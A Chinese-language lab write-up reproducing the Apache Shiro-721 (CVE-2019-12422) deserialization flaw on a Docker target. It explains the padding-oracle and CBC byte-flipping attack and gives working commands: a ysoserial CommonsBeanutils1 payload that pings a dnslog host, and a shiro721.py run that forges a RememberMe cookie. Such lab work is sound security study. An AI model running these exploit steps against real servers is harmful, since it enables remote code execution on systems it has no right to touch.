

CVE-2019-12422漏洞复现Shiro721
Apache Shiro简介
Apache Shiro是一款开源的Java安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。
漏洞范围
受影响版本：
Apache Shiro <= 1.4.1
漏洞简介
和shiro550一样，都是生成恶意RememberMe Cookie反序列化执行代码，不同之处是恶意RememberMe Cookie生成方式。shiro550反序列化利用需要知道AES加密的密钥，通过碰撞key，爆破出来密钥，使用这个密钥构造直接payload；而shiro721的AES加密的key一般情况下猜不到，是系统随机生成的，需要一个已登录用户的合法RememberMe Cookie值，运用此值通过数学原理构造有效负载。
Shiro的加密方式为AES/128/CBC，这种CBC加密方式存在一个Padding Oracle Attack（填充Oracle攻击），可以通过爆破获取到所有的明文值，获取到所有密文回复的明文然后通过CBC Byte-Flipping Attack（CBC字）跳跃节攻击）改变密文加入恶意序列化数据，从而使shiro服务器AES解密后的明文中标记恶意序列化数据。
环境搭建
搭建过程详见基于VirtualBox的网络攻防基础环境搭建
本次复现采用的环境：
| 测试环境 | IP |
|---|---|
| kali(攻击机) | 172.16.111.108 |
| ubuntu(靶机) | 172.16.111.120 |
| debian(网关) | 172.16.111.1 |
具体的网络环境如下
kali-attacker：


ubuntu-victim：


网关：

漏洞复现
ubuntu-victim：
搭建漏洞环境Shiro-721
1 | # 加载项目 |

1 | # 查看容器状态 |
访问http://172.16.111.120:5555并没有显示，发现每次docker run -d容器运行后都会自动关闭

于是换了个环境
1 | # 下载vulfocus的环境 |

访问http://172.16.111.120:1111页面

查看登录界面

登陆失败的话，勾选了RememberMe字段，返回包会有rememberMe=deleteMe字段

登录成功，使用了正确的账号和密码，得到了返回的rememberMe值

kali-attacker：
使用Java反序列化工具 ysoserial 生成 Payload
1 | java -jar ysoserial.jar CommonsBeanutils1 "ping x9sx7e.dnslog.cn" > payload.class |

通过Padding Oracle Attack制作攻击者恶意的RememberMe cookie
1 | python2 shiro721.py "http://172.16.111.120:1111/login.jsp" "ubjFdXkGy9w6l1t1u3JP39YiEzUVLdUqghdS+RL4H5/mAOJ7uNz7FHs6vtTlYQYVBlxaERC40NbtOxlALJWO86V5FO1Kjb7k8sb5YNZgIUjtdjgioWHbF/mb+klKpanzWpTZ4q/8UiLILS7B6MptFk9CBVUlceV5TGXdOIzxW0r+WlywuKba4Zwj049Njf7W8YerBjNGjjEOg3iGz5CpdPst/Sgs31WjlWmOuelaXXQCWjxJH9Sa9qGO9w/C+DFrZyjgXfO4DQllNslMUvdgPo4OX3kYAAWynaO65iXtc6W9Jd88XxkFCEhInDjzzvusdYCJ3H8UQ+0q7PbcpWJ50Sb3nrQlaCIPQGhfCj6De3Tgz+Kr41ZSq+T0YJAchSTYWahwbyg83WPBv26N+97S5tl7MEDfKmgPIMhcqAfEBquY+MM22Yf6aj9jMo89t2mxAlW7pzdzR9ntN2bmSy7wL9im+vOOnMTaMePaExmyqicg0E6ZhNWMB9//tDa80B/U" payload.class |
跑了一个多小时….

最后将Evil Rememberme cookie 认证进行反序列化攻击
复制生成成功的cookie，重放数据，即可成功执行命令